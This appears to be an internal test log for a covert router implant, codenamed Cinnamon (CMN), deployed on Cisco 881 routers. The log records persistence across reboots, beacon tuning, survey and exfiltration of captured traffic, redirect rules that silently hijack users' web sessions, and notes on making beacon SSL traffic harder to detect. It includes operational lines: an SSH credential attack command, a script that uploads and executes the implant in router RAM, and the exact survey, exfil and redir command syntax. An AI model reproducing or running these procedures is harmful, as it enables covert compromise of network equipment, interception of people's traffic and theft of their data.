- DUT implanted with CMNCaiman (Codename)? persistently, beaconing every 10s
- Reload in order to perform Upgrade IOSApple operating system for small devices from 15.1(2)T4 to 15.2(4)M3
- DUT did not complete boot process after reload, got an error message "no sreloc section", then IOSApple operating system for small devices loaded and it looked like config from NVRAMNon-volatile Random Access Memory was loaded, 881 gave an error message about configuring a config-key, and then was hung. Could not get a response on console or over telnet. Sent break and then it finally finished the boot, seems like the tripwire worked. CMN not sending beacons, but 881 did finish booting and is back up.
- Downgraded code back to 15.1(2)T4 - DUTDevice Under Test booted without a problem
- Attempted to reproduce step b - reproduced issue.
- Next step - confirm that this does not happen without CMNCaiman (Codename)? loaded.
- Recovered by sending break, downgrading IOSApple operating system for small devices and then I got beacons again.. Uninstalled CMNCaiman (Codename)? with level 1
- Was able to perform IOSApple operating system for small devices upgrade without CMNCaiman (Codename)? installed. Created JIRAUser Managment Software (Atlassian) issue for 15.2(4)M3 CMN5.
-
Test Tool Upgrade command
- Start with clean DUT, no CMNCaiman (Codename)? installed
- Establish FLXFluxwire connection
- Upload CMNCaiman (Codename)? sticky norb with beacon interval set to every 7 days
- Rx'd beacon on Spicerack - uploaded both modules
- Created another CMNCaiman (Codename)? 880-norb-sticky build with a built-in 1min beacon interval and copied 880 directory containing .upgrade file over to Spicerack /opt/pepper/cmds/
-
Found that the example command is not correct in pepper:
[root@blot-spicerack cmds]# more device_upgrade.cmd
# Command Name: UPGRADE IMPLANT
# parameter1: the path to the cmn-upgrade-<platform>.elf file that will be sent
# to the implant.
#
device_upgrade|cinnamon_upgrade.elf
[root@blot-spicerack cmds]#
It should reference .upgrade file - CMN-6 - Used device_upgrade to upgrade CMNCaiman (Codename)? to the version that beacons every 1 min
-
Upgrade loaded successfully:
Total commands reporting status: 1
Command: 1
Module: 1
Command: 1
Status: SUCCESS - Rebooted DUTDevice Under Test to move to the new upgrade version in ROMMON
- Verified that the new version did load by checking the Build Time:
[Versioning]
Cinnamon Version = 5.0.0 Jun 26 2015 - 10:49:04 New version will not beacon every minute as I thought even though it was built with that setting in the cinnamon.cfg file. This is due to the previous persistent version already present on the DUTDevice Under Test before upgrade. The persistent implant config data was already saved to NVRAMNon-volatile Random Access Memory and this will take precendence over the settings build into the CMNCaiman (Codename)? base implant.
- Successfully updated the beacon interval using the pepper command beacon_interval.
- Testing Internet Detection
- DUT currently implanted with sticky norb, beaconing every 1 minute, seeds traffic had been running, just wget.
- Stopped seeds traffic.
- Changed learning repeat interval through pepper command to be 120s. - module 2 acknowledged success
- Reloaded DUTDevice Under Test - will see if it is able to beacon once it's back up
- DUT came back up and as expected, it was not able to beacon even after the DUTDevice Under Test was up for 12 minutes
- I turned Seeds traffic on and CMNCaiman (Codename)? then began to beacon - CMNCaiman (Codename)? must have learned the interfaces during the learning phase, even without seed traffic. CMN can then perform Internet Detection all the time, and as soon as it sees the internet connection, it will attempt the beacon with the expired timer that it couldn't attempt to send earlier. Internet Detection continues until internet detected, then backoff delay of 1 minute if detected.
- Next step - test with different DNSDomain Name System server (non-recursive) on Seeds traffic.
watch -n2 wget -nv -T 1 -O /dev/null http://alias.google.com
Reloaded DUTDevice Under Test to clear out learned interfaces and internet detection
- Set Seeds to use X.X.X.X (LVLT-GOGL-8-8-8[US]) as DNSDomain Name System server - never could get CMNCaiman (Codename)? to beacon, timed or triggered.
- Changed Seeds to use 4.4.4.4 - never could get CMNCaiman (Codename)? to beacon in response to a trigger
- Reloaded DUTDevice Under Test - CMNCaiman (Codename)? beaconing in response to trigger, but not timed beacons
- Set beacon interval to every 1 minute - beacon response to trigger, but do not received timed beacons
- Reloaded DUT, Seeds still on 4.4.4.4 - CMNCaiman (Codename)? still responding to trigger through flux, but not receiving timed beacons even after setting to every 20s. This is because the beacon failsafe timeout had been reached.
- Reset the beacon failsafe with bacon - reset command successful.
- Reset device to beacon every 2 minutes
- Verify Seeds using DNSDomain Name System server 4.4.4.4
- Reloaded DUTDevice Under Test to see if it will automatically detect internet with 4.4.4.4 and begin timed beacons every 2 minutes as expected. - Confirmed
- Switched seeds to use X.X.X.X (LVLT-GOGL-8-8-8[US]) - beacons still coming every 2 minutes. Letting run for more than 10 minutes to account for back off delay.
- Beacons worked on X.X.X.X (LVLT-GOGL-8-8-8[US]) server all night, every two minutes. Going to reboot and see if it still works with the X.X.X.X (LVLT-GOGL-8-8-8[US]) DNSDomain Name System server
- Rebooted 881 and it began beaconing again with X.X.X.X (LVLT-GOGL-8-8-8[US]) for Seeds traffic. Verified traffic to X.X.X.X (LVLT-GOGL-8-8-8[US]) server and see the following in output of tcpdump - CMN-7:
09:18:53.154280 IP XXX.XX.XXX.XXX (CABLEVISION[US]).50424 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 7281+ A? alias.google.com. (34)
09:18:53.756970 IP XXX.XX.XXX.XXX (CABLEVISION[US]).26126 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 24123+ A? www.google.com. (32)
09:18:53.759726 IP XXX.XX.XXX.XXX (CABLEVISION[US]) > X.X.X.X (LVLT-GOGL-8-8-8[US]): ICMPInternet Control Message Protocol host XXX.XX.XXX.XXX (CABLEVISION[US]) unreachable - admin prohibited, length 118
09:18:55.169643 IP XXX.XX.XXX.XXX (CABLEVISION[US]).57481 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 34067+ AAAA? alias.google.com. (34)
09:18:55.172606 IP XXX.XX.XXX.XXX (CABLEVISION[US]).50223 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 51940+ A? alias.google.com. (34)
09:18:56.105590 IP XXX.XX.XXX.XXX (CABLEVISION[US]).29803 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 22405+ A? www.suptest.com. (33)
09:18:56.108065 IP XXX.XX.XXX.XXX (CABLEVISION[US]) > X.X.X.X (LVLT-GOGL-8-8-8[US]): ICMPInternet Control Message Protocol host XXX.XX.XXX.XXX (CABLEVISION[US]) unreachable - admin prohibited, length 108
09:18:57.188784 IP XXX.XX.XXX.XXX (CABLEVISION[US]).38501 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 62451+ AAAA? alias.google.com. (34)
09:18:57.191526 IP XXX.XX.XXX.XXX (CABLEVISION[US]).52440 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 53376+ A? alias.google.com. (34)
09:18:59.206950 IP XXX.XX.XXX.XXX (CABLEVISION[US]).36149 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 47735+ AAAA? alias.google.com. (34)
09:18:59.209641 IP XXX.XX.XXX.XXX (CABLEVISION[US]).555 -
Stopped Seeds traffic to see how long it will keep beaconing - it does, added -v to get more detail on tcpdump output ICMPInternet Control Message Protocol unreachables.
09:39:03.772956 IP (tos 0x0, ttl 254, id 28, offset 0, flags [none], proto UDPUser Datagram Protocol (17), length 60)
XXX.XX.XXX.XXX (CABLEVISION[US]).28355 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 56049+ A? www.google.com. (32)
09:39:03.775915 IP (tos 0xc0, ttl 62, id 18672, offset 0, flags [none], proto ICMPInternet Control Message Protocol (1), length 138)
XXX.XX.XXX.XXX (CABLEVISION[US]) > X.X.X.X (LVLT-GOGL-8-8-8[US]): ICMPInternet Control Message Protocol host XXX.XX.XXX.XXX (CABLEVISION[US]) unreachable - admin prohibited, length 118
IP (tos 0x0, ttl 62, id 51133, offset 0, flags [none], proto UDPUser Datagram Protocol (17), length 110)
X.X.X.X (LVLT-GOGL-8-8-8[US]).53 > XXX.XX.XXX.XXX (CABLEVISION[US]).28355: 56049* 1/1/1 www.google.com. A X.X.X.XX (LVLT-GOGL-8-8-8[US]) (82)
09:39:05.774558 IP (tos 0x0, ttl 254, id 29, offset 0, flags [none], proto UDPUser Datagram Protocol (17), length 61)
XXX.XX.XXX.XXX (CABLEVISION[US]).31670 > X.X.X.X (LVLT-GOGL-8-8-8[US]).53: 29828+ A? www.suptest.com. (33)
09:39:05.778277 IP (tos 0xc0, ttl 62, id 18673, offset 0, flags [none], proto ICMPInternet Control Message Protocol (1), length 128)
XXX.XX.XXX.XXX (CABLEVISION[US]) > X.X.X.X (LVLT-GOGL-8-8-8[US]): ICMPInternet Control Message Protocol host XXX.XX.XXX.XXX (CABLEVISION[US]) unreachable - admin prohibited, length 108
IP (tos 0x0, ttl 62, id 51134, offset 0, flags [none], proto UDPUser Datagram Protocol (17), length 100)
X.X.X.X (LVLT-GOGL-8-8-8[US]).53 > XXX.XX.XXX.XXX (CABLEVISION[US]).31670: 29828* 1/1/0 www.suptest.com. A 172.20.13.10 (72) - Rebooted DUTDevice Under Test with no seeds traffic - Device did not beacon
- Started Seeds to X.X.X.X (LVLT-GOGL-8-8-8[US]) and CMNCaiman (Codename)? immediately beaconed.
- Seeds stopped working after just a few minutes. Tried restarting seeds process, still doesn't work. Manual lookups from Seeds host do work. CMN no longer beaconing. Only ever sent the first one.
- Seeds stopped working, I triggered the implant and it did beacon. At that time, I noticed seeds was also now working. I sent a beacon failsafe reset to the implant and now beaconing every 2 min.
- Trying to repeat the results - starting with DUTDevice Under Test reboot with no Seeds traffic. Unable to reproduce so far. This was likely due to DNSDomain Name System server issue, manual lookups were likely cached. Likely caused by someone else making changes on DNSDomain Name System server while I was testing.
- Test using real web browser requests for Internet detection
- Reloaded DUTDevice Under Test with no seeds traffic running
- Waited until CMNCaiman (Codename)? was up and then opened firefox on Seeds host and connected to www.cnn.com (X.X.X.X (LVLT-GOGL-8-8-8[US]) was dns server) - success, CMNCaiman (Codename)? began beaconing.
- Test switch DNSDomain Name System servers after CMNCaiman (Codename)? is already up - CMNCaiman (Codename)? expected to use newly detected DNSDomain Name System server
- CMN running on DUT, using X.X.X.X (LVLT-GOGL-8-8-8[US]) as the detected DNSDomain Name System server
- Change DNSDomain Name System server on Seeds host to 4.4.4.4
- Verified that CMNCaiman (Codename)? began sending DNSDomain Name System queries to the newly detected 4.4.4.4 server
- Test CMNCaiman (Codename)? queries to a DNSDomain Name System server that does not perform recursion
- Created a DNSDomain Name System server 4.4.4.3 that does not perform recursive queries.
- Switched Seeds traffic to 4.4.4.3 Server
- Observed CMNCaiman (Codename)? implant still uses 4.4.4.4 server for DNSDomain Name System queries despite switching Seeds and continues to be able to beacon
- No other anomalous output observed - no snmp trap, no syslog message or console message
- Created a zone to provide a valid answer for seeds traffic - www.internal.com on 4.4.4.3.
- Changed Seeds traffic to query for www.internal.com - CMNCaiman (Codename)? now attempts to perform PROBE DEST lookups from 4.4.4.3 and fails to beacon
- Attempt to trigger CMNCaiman (Codename)? with IP address - CMNCaiman (Codename)? does respond by performing DNSDomain Name System lookup to PROBE_DEST, but never beacons. This is consistent with User Guide which states that before beaconing, CMNCaiman (Codename)? will perform active internet detection steps and if successful, will inititate a beacon. No distinction made between beaconing by IP address and beaconing using hostname.
- Switched back to using 4.4.4.4 for seeds traffic - CMNCaiman (Codename)? will now respond to trigger by IP address, after giving it a minute to learn the new DNSDomain Name System server
- CMN did not resume timed beacons until i reset failsafe.
- Test CMNCaiman (Codename)? modules after reboot and reupload of modules
- Persistent CMNCaiman (Codename)? loaded, DUTDevice Under Test has been reboote
- Loaded modules to MCN
- Setup Redirect and Collect rules
- Tested redirect rule from Seeds host, web traffic was redirected per the rule
- Sent a .send file that contained two lines - survey_show and redir_show. Status file indicates both commands successful, however spicerack never receives a .rules file - CMN-8. I was able to execute redir_show indivually and .rules file shows up in spicerack.
- Trying the same two line command file but with redir_show first. I did receive both the .rules file and the .rcvd file showing the survey scenario
- Successfully exfilled data from survey scenario - sent some additional exfil command for non existent scenarios, error messages returned for non-existent scenarios:
[root@blot-spicerack receive]# more 20150702160823_0000011741.status
[Command Results]
Total commands reporting status: 3Command: 1
Module: 5
Command: 2
Status: FAILURE - 0x00000007Command: 2
Module: 5
Command: 2
Status: SUCCESSCommand: 3
Module: 5
Command: 2
Status: FAILURE - 0x00000007
-
Test 18 Verify traffic collected by survey module - tunnel, outside tunnel
- Verified CMNCaiman (Codename)? running with both survey and redir modules uploaded, no redir rules or survey scenarios active
- Set up HTTPHypertext Transfer Protocol traffic both inside and outside the tunnel from the Seeds host - wgets to both www.cnn.com and XXX.XXX.X.X (CORE2[US])
- Created a survey scenario to capture all HTTPHypertext Transfer Protocol traffic matching Seeds host and source port 80 for 2 minutes with a 30 second window and 10 second start delay, uploaded cmd.
survey_add_scenario|1|00:00:02:00|00:00:30|protocol|source_addr|source_port|dest_addr
survey_add_filter|1|accept|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|80|80|TCP
survey_start_scenario|1|offset|00:00:00:10 -
Filter was successful:
[root@blot-spicerack unscramble]# more 20150708204233_0000013898.csv
sep=,
Scenario ID,1
Assigned Start Time,2015-07-08_20:39:02_GMT
Actual Start Time,2015-07-08_20:39:02_GMT
Duration,120
Resolution,30
Overflow Count,0
Quantifier Fields,Protocol,Source Address,Source Port,Destination Address,
Number of Filters,1
Number of Entries,8Filter List
Filter ID,Filter Type,Filter Protocol,IP Address,Netmask,Port Start,Port End
0,Accept,TCP,XXX.XXX.XXX.XX (CORE2[US]),255.255.255.255,80,80Exfiltration Entries
Entry,Matched Filter,First Time,Last Time,Window,Sessions,Packets,Bytes,Source Addr,Source Port,Dest Addr,Dest Port,Protocol
0,0,2015-07-08_20:40:32_GMT,2015-07-08_20:41:00_GMT,3,15,105,1635,008.008.008.025,80,100.200.177.010,0,6
1,0,2015-07-08_20:40:03_GMT,2015-07-08_20:40:30_GMT,2,14,98,1526,008.008.008.025,80,100.200.177.010,0,6
2,0,2015-07-08_20:39:33_GMT,2015-07-08_20:40:01_GMT,1,15,105,1635,008.008.008.025,80,100.200.177.010,0,6
3,0,2015-07-08_20:39:02_GMT,2015-07-08_20:39:31_GMT,0,15,105,1635,008.008.008.025,80,100.200.177.010,0,6
4,0,2015-07-08_20:40:33_GMT,2015-07-08_20:41:01_GMT,3,12,73,1308,100.255.000.001,80,100.200.177.010,0,6
5,0,2015-07-08_20:40:02_GMT,2015-07-08_20:40:31_GMT,2,8,27,545,100.255.000.001,80,100.200.177.010,0,6
6,0,2015-07-08_20:39:36_GMT,2015-07-08_20:40:00_GMT,1,10,60,981,100.255.000.001,80,100.200.177.010,0,6
7,0,2015-07-08_20:39:03_GMT,2015-07-08_20:39:30_GMT,0,9,35,763,100.255.000.001,80,100.200.177.010,0,6 - HTTP replies from both inside and outside the tunnel to the Seeds host iP were captured.
- Created a filter just match traffic for IP XXX.XXX.X.X (CORE2[US]) - collected just the 80 traffic from Seeds host
- Ran the same scenario again, this time bouncing t0 on DUTDevice Under Test and running a ping to XXX.XXX.X.X (CORE2[US]) during survey - still only port 80 TCPTransport Control Protocol traffic collected.
- Changed the scenario to capture UDPUser Datagram Protocol traffic instead of TCPTransport Control Protocol and performed the same tunnel bounce and ping on DUTDevice Under Test - when I tried to exfil the data, got the following error message, which indicates nothing to exfil:
[root@blot-spicerack receive]# more 20150708213455_0000013910.status
[Command Results]
Total commands reporting status: 1Command: 1
Module: 5
Command: 2
Status: FAILURE - 0x0000000c[root@blot-spicerack receive]#
- Changed the scenario to capture TCPTransport Control Protocol and UDPUser Datagram Protocol traffic from the remote tunnel endpoint - XX.XX.XXX.XXX (GULF-CYBERIAN[AE]). Collected the following UDPUser Datagram Protocol isakmp packets between the endpoints:
Exfiltration Entries
Entry,Matched Filter,First Time,Last Time,Window,Sessions,Packets,Bytes,Source Addr,Source Port,Dest Addr,Dest Port,Protocol
0,0,2015-07-08_21:50:09_GMT,2015-07-08_21:50:09_GMT,3,0,2,184,084.047.252.254,500,181.028.148.254,500,17
1,0,2015-07-08_21:48:44_GMT,2015-07-08_21:49:09_GMT,1,0,7,980,084.047.252.254,500,181.028.148.254,500,17
- IXIA 3 day test
- Rx the following syslog message during the test:
Jul 3 00:49:30.266: %IP_VFR-4-FRAG_TABLE_OVERFLOW: Tunnel0: the fragment table has reached its maximum threshold 16
Jul 3 00:56:15.306: %IP_VFR-4-FRAG_TABLE_OVERFLOW: Tunnel0: the fragment table has reached its maximum threshold 16
From show ip traffic:Frags: 629988 reassembled, 0 timeouts, 0 couldn't reassemble
630009 fragmented, 1890036 fragments, 0 couldn't fragment This also generated corresponding SNMPSimple Network Management Protocol Traps
clogHistTimestamp.6 = 2077441
clogHistMsgText.6 = Tunnel0: the fragment table has reached its maximum threshold 16
clogHistMsgName.6 = FRAG_TABLE_OVERFLOW
clogHistSeverity.6 = 5
clogHistFacility.6 = IP_VFR
snmpTrapOID = CISCO-SYSLOG-MIB:clogMessageGenerated
sysUpTime = 5 hours 46 minutes 14.44 secondsPeak memory used during the test actually slightly lower than during the 1 day test without CMNCaiman (Codename)? - (with CMNCaiman (Codename)? about 56%, without 60%)
CPU higher during test with CMNCaiman (Codename)? - peak hits about 30% higher with CMNCaiman (Codename)? - with CMNCaiman (Codename)? about 90%, without 60%. Sustained CPU also higher with CMNCaiman (Codename)? - less than 10% without CMN, closer to 15% with
CMN timed beacons not working - due to IXIA traffic, timed beacons had failed and failsafe tripped. CMN does respond to trigger. Reset beacon failsafe.
- Uninstalled CMNCaiman (Codename)? and then reloaded DUT. Repeating same IXIA traffic test without CMNCaiman (Codename)? installed for 24 hours to verify previous results.
- At start of test - Used memory 41589092, CPU -
CPU utilization for five seconds: 4%/0%; one minute: 4%; five minutes: 3%
Memory used 26%, Average CPU Load 3%
- At start of test - Used memory 41589092, CPU -
- Rx the following syslog message during the test:
- Inspect Wireshark of Beacons
- Found CMNCaiman (Codename)? in state where it had stopped timed beacons over the long weekend. i had stopped seeds traffic on Friday, however it should remember it's DNSDomain Name System and HTTPHypertext Transfer Protocol passive internet detection values forever.
- Sent a trigger packet - it did not reach seeds, host, so CMNCaiman (Codename)? picked it up.
- Confirmed with wireshark that in the absence of other seed traffic, CMNCaiman (Codename)? had somehow sniffed 10.9.8.21 as the DNSDomain Name System server. So active internet detection step to verify access to PROBE_DEST is failing.
- Restarted Seeds script to get CMNCaiman (Codename)? to use correct DNSDomain Name System server.
- Captured wireshark of beacons with Blot Proxy server - with and without offload.
- Collected a wireshark of Seeds SSLSecure Socket Layer session with Coverweb server for comparison - with and without offload
- Noticed some odd things in the wireshark of the beacons
- Client Hello - SSL, Random - time is set to Mar 21, 2034
- This is OK - many recent browsers stick random data into this field and when viewed in wireshark, this causes strange dates (User #?)
- SSL packets from CMNCaiman (Codename)? do not have the DF bit set in IP (DFB bit is set when I web browse from the client to the coverweb server
- Reported verbally to User #76523 7/9/15 - he is investigating and will implement a fix (User #?)
- Created CMN-9 JIRAUser Managment Software (Atlassian) issue for DF bit not set
- Between the Server Hello and Certificate, Server Hello done packets, see several sets of TCPTransport Control Protocol segment of a reassembled PDU followed by TCPTransport Control Protocol ACKAcknowledge exchanges. This is not present in web User #? SSLSecure Socket Layer session to coverweb from Seeds host.
- After client hello, should see server hello, certificate packet followed by a server key exchange, server hello done packet. CMN instead just shows Server hello, then a Certificate, Server hello done packet. No key exchange.
- This is because Blot is sending those (fake) server SSLSecure Socket Layer packets when Cinnamon beacons, and when it's to the cover server, Apache is sending the real SSLSecure Socket Layer handshake packets. Apache combines Server Hello and Certificate into one message, whereas Blot splits them up. This is a signature issue, as it's atypical to see the messages split up that way by a server, however in terms of priority, removing SSLv3 should be higher. See below. (User #?)
- CMN also missing the Encryption Alert packets in wireshark.
- This is bad, needs fixed (User #?)
- Created CMN-10 JIRAUser Managment Software (Atlassian) issue for Encrypted alert packet not present
- Traffic to the cover server results in both the client (Firefox) and the server (Apache) offering TLSv1 in their respective Hello messages. Implant traffic to the same DNSDomain Name System (Blot proxy) will result in SSLv3 being offered in both Client Hello and Server Hello messages. This is alerting that the same server does different versions depending on which clients access it. This is a Blot (Xetron) issue, Cinnamon has no control over this.
- Operational use note to COG/OSD to ensure Apache cover server is configured to give SSLv3, however this is also kind of bad (see next bullet)
- Swindle (Bloth HTTPSHypertext Transfer Protocol Secure protocol) uses SSLv3. This is rarely used these days, and is a signature. If recent web browsers go to the Blot proxy, and are sent to the Cover Server (which should be configured to give SSLv3 so as to be consistent with implant traffic), the browser will likely reject the connection. Browsers are now being defaulted to not allow SSLv3 (and are removing support altogether), as there are many vulnerabilties in it. Xetron issue, Cinnamon has no control over this.
- Client Hello - SSL, Random - time is set to Mar 21, 2034
- Test Fragmentation - characterize DF bit not set issue
- Without using flux, verified that triggered beacons are working to the 881 currently.
- On TR-Core, set mtu to 512 on vlan204 interface. According to Cisco documentation, ip mtu command will not affect MTUMaximum Transmission Unit but mtu command will also change ip mtu
- Sent another trigger packet and it went through successfully
- Set mtu to 64, 128, 256 and tried each time to trigger - no beacon was rcvd
- Set mtu back to 512 - successfully triggered a beacon
- After further testing with different sizes, it seems that around mtu 295-299 causes the beacon to fail. Tried changing only ip mtu, only mtu, and both ip mtu and mtu together. Results are not 100% consistent within this range, but this seems to be the demarcation where the beacon will fail.
- Test IXIA with both tunnel traffic as well as NATNetwork Address Translation traffic
- Configured IXIA to test from 881 LANLocal Area Network segment to a subnet that routes through the tunnel as well as a subnet that routes outside the tunnel
- 10.100.100.0/24 (VLANVirtual Local Area Network 220) is the outside the tunnel segment, traffic to this subnet uses 881 interface f4 and is NAT'd out
- 10.200.200.0/24 (VLANVirtual Local Area Network 221is the inside the tunnel segment, traffic to this subnet uses eigrp to route inside the tunnel and it is not NAT'd by the 881
- Both subnets are configured on the 3845 hub router for this test setup.
- DUT is clean, no CMNCaiman (Codename)? installed.
- Setup an IXIA NN with 20 hosts behind 881, 10 hosts at other end of tunnel and 90 external outside tunnel hosts. Setup test to run 100,000 max superflows, SOHOSmall Office / Home Office profile, and a range of traffic up to 10M.
- Test ran for 2h 40m and DUTDevice Under Test CPU shows:
881-Bottom#show proc cpu
CPU utilization for five seconds: 45%/35%; one minute: 42%; five minutes: 36%
PIDProcess ID Runtime(ms) Invoked uSecs 5Sec 1Min 5Min TTYTeletype device Process
- Solarwinds reporting CPU at 38% and Mem at 59% used
- Installed CMNCaiman (Codename)? 880-norb version 5.0.1 - during IACInternational Access Code attack, CPU spiked:
881-Bottom#sh proc | i %
CPU utilization for five seconds: 99%/42%; one minute: 97%; five minutes: 71% -
CPU returned to a low number after waiting a bit:
881-Bottom#sh proc | i %
CPU utilization for five seconds: 16%/10%; one minute: 23%; five minutes: 55% -
Uploaded CMNCaiman (Codename)? using IACInternational Access Code and saw a small increase in CPU:
881-Bottom#sh proc | i %
CPU utilization for five seconds: 28%/11%; one minute: 24%; five minutes: 54% - Post install - CPU has increased:
881-Bottom#sh proc | i %
CPU utilization for five seconds: 50%/31%; one minute: 41%; five minutes: 45% CMN installed successfully. Allowed to run for an hour and CPU now higher:

- Test CMNCaiman (Codename)? DNSDomain Name System squelch fix - Install on 881 Top and monitor DNSDomain Name System traffic
- Used MCN uninstall command to remove CMNCaiman (Codename)? from 881-Top
- Reloaded 881-Top
- Installed CMNCaiman (Codename)? 5.0.1 build on DUTDevice Under Test through FLXFluxwire connetions
- IAC attack - user1@Cinnamon-ICON:~/IAC 4.1.0/delivery/IAC-4.1.0/bin$ ./sshiac-ppc -i XXX.XXX.XXX.X (CORE2[US]) -l cisco:cisco
- upload CMNCaiman (Codename)? -
./bin/ramUploadAndExecuteCmn800.py /home/user1/880-norb/cmn-880-norb.bin
Implant beaconed after a few minutes successfully
- Turned off Seeds traffic to make it easier to look at tcpdump output of DNSDomain Name System server and Seeds host
- Setup tcp dump on DNSDomain Name System server 4.4.4.4 to show traffic from XXX.XX.XXX.XXX (CABLEVISION[US]). Set up wireshark to watch all traffic on Seeds. Watched traffic on tcpdump for FLXFluxwire host too, just in case somehow CMNCaiman (Codename)? picked up this IP to impersonate.
- Triggered CMNCaiman (Codename)? and did not see any traffic on Seeds host VMVirtual Machine and did not see the same ICMPInternet Control Message Protocol admin prohibited messages on DNSDomain Name System server.

- DNS replies to CMNCaiman (Codename)? requests are not making it to imperonated host, and no ICMPInternet Control Message Protocol unreachable Admin Prohibited rcvd by the DNSDomain Name System server.
- Test NMAPNetwork security scanner - on CMNCaiman (Codename)? 5.0.1
- Running nmap against DUTDevice Under Test - full results are stored in folder on NDBNetwork Devices Branch share - 10.9.8.21
- Results show the following open ports, which are expected based on current configuration with the exception of high UDPUser Datagram Protocol port 55145.
Nmap scan report for XXX.XX.XXX.XXX (CABLEVISION[US])
Host is up (0.0026s latency).
Not shown: 131063 closed ports
PORT STATE SERVICE
22/tcp open ssh
67/udp open|filtered dhcps
161/udp open snmp
162/udp open|filtered snmptrap
500/udp open isakmp
4500/udp open|filtered nat-t-User #?
55145/udp open|filtered unknown - this seems to be the random high port used by SNMPSimple Network Management Protocol inform
-
Verified by reloading device to remove CMNCaiman (Codename)? and looking for open ports - it is once again listening on a high port:
881-Top#show control-plane host open-ports
Active internet connections (servers and established)
Prot Local Address Foreign Address Service State
tcp *:22 *:0 SSH-Server LISTEN
tcp *:23 *:0 Telnet LISTEN
udp *:64968 10.9.8.22:162 IOSApple operating system for small devices host service ESTABLIS
udp *:67 *:0 DHCPD Receive LISTEN
udp *:4500 *:0 ISAKMP LISTEN
udp *:161 *:0 IP SNMPSimple Network Management Protocol LISTEN
udp *:162 *:0 IP SNMPSimple Network Management Protocol LISTEN
udp *:58965 *:0 IP SNMPSimple Network Management Protocol LISTEN
udp *:500 *:0 ISAKMP LISTEN - Installed CMNCaiman (Codename)? - re-attacked with IACInternational Access Code and uploaded CMNCaiman (Codename)? through remote using FLUX to the inside IP adress
- Waited 6 minutes and ran this same command again and the output had not changed with the addition of CMN.
- Test beaconing with ACLAccess Control List in place
- Verified trigger/beacon operations without flx to public ip of DUTDevice Under Test - works.
- Configured DUTDevice Under Test with an IOSApple operating system for small devices firewall outbound and access-list that denies everything inbound
ip inspect name MYINSPECT tcp timeout 60
ip inspect name MYINSPECT udp timeout 60
ip inspect name MYINSPECT http timeout 60
ip inspect name MYINSPECT ftp timeout 60interface FastEthernet4
ip address dhcp
ip access-group 101 in
ip nat outside
ip inspect MYINSPECT out
ip virtual-reassembly in
ip tcp adjust-mss 1452
duplex auto
speed autoaccess-list 101 deny ip any any log
- Attempted to trigger again - beacon successful, no denied packets logged
- Test bouncing tunnel while traffic running though it
- IXIA is running test with tunnel traffic and outside tunnel traffic
- Bounced tunnel interface
- IXIA reported failed connections, but then recovered when tunnel came back up and failed connections stopped incrementing
- One minute CPU spiked from 75% to 88% during tunnel bounce/recovery.
- 3 day IXIA test with CMN
- Test parameters - 10 inside hosts, 90 internet hosts, 10 tunnel hosts, traffic ranging from 1 -10M, SOHOSmall Office / Home Office profile, 72 hour test
- Percent Memory used during the majority of the test stayed at 95th percentile value of 58%, however over time from Friday afternoon when the test was kicked off to Monday morning at 7am, the percent memory used 95th percentile creeped down to 55%.
- After 7am, the Percent memory used dropped steadily, and IXIA traffic also declined at 9AM, IXIA pushing only steady 1.382M tx/1.377rx and memory holding steady at 95th percentile of 38%
881-Bottom#show mem
Head Total(b) Used(b) Free(b) Lowest(b) Largest(b)
Processor 84A91420 164031456 62481724 101549732 43242064 43468476
I/O E700000 26214400 9567580 16646820 16461184 16511068 CPU history taken at 9:48 AM - current traffic reported by IXIA test - 1.382M tx/1.377rx

- CPU during the test from 5PM on Friday to 9am on Monday
('image' missing)
- Need to investigate why traffic seems to change and ramp down
- Test saved as JQJSECONDCUT-with-Tunnel_72-hour-CMN_installed.pdf on share
- Verify correct traffic altered by redirect rules
- Added five larger image files to X.X.X.XX (LVLT-GOGL-8-8-8[US]) web server to generate a larger web transfer during redirect
- Installed CMNCaiman (Codename)? 5.0.1 on 881 DUT
- Uploaded the redir module to the DUT
- Verified that Seeds host can web browse to 172.20.13.20 as well as X.X.X.XX (LVLT-GOGL-8-8-8[US]) successfully without any redirection
- Created forward and reverse redir rules to redirect the seeds host from cover web server 172.20.13.20 to the X.X.X.XX (LVLT-GOGL-8-8-8[US]) web server
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_show - Commands accepted successfully and redir show shows rules
Hit refresh in open firefox window on Seeds for 172.20.13.20 and was redirected to the X.X.X.XX (LVLT-GOGL-8-8-8[US]) web server
- Closed firefox and re-opened and still wsa redirected. Cleared private data and then closed and opened again, still redirected.
- Entered a redir show and see 258 seconds remaining for rule.
- Waited for this time to expire and hit refresh on the 172.20.13.20 firefox window on Seeds - no longer being redirected.
- Created a more complex rule file with mutiple LANLocal Area Network hosts redirected to X.X.X.XX (LVLT-GOGL-8-8-8[US]) as well as the Seeds host also redirecting traffic for ip 172.20.13.21 to X.X.X.XX (LVLT-GOGL-8-8-8[US]):
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
redir_create|interface|X.X.X.XX (LVLT-GOGL-8-8-8[US])|255.255.255.255|0|0|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|TCP|172.20.13.20|0|0|XXX.XXX.XXX.XX (CORE2[US])|0|0|600
redir_create|interface|XXX.XXX.XXX.XX (CORE2[US])|255.255.255.255|0|0|172.20.13.20|255.255.255.255|0|0|TCP|XXX.XXX.XXX.XX (CORE2[US])|0|0|X.X.X.XX (LVLT-GOGL-8-8-8[US])|0|0|600
